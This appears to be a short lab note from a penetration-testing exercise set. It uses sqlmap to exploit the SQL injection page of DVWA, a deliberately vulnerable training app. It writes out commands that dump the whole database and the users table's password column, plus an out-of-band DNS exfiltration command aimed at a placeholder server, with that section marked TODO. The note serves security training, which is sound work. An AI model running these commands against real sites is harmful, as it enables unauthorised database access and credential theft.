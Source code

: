 # 03 - Data Exfiltration

Search Tag: #sql-injection #sqlmap #credential-access-and-dumping #data-exfiltration #dvwa

### 3.1 - Dump the whole database

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent -D dvwa --dump-all
```

### 3.2 - Dump the specific tables and columns

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent -D dvwa -T users -C user,password --dump
```

### 3.3 - DNS Exfiltration (Out-of-band SQL Injection)

TODO: Demonstrate DNS exfiltration via sqlmap

```
$ sudo sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --dns-domain=<dns_server_IP> -D dvwa -T users -C user,password --dump
```

---
## References

- [SQLmap – Enumeration of Databases & Users from Vulnerable Web Forms](https://kalilinuxtutorials.com/sqlmap2/)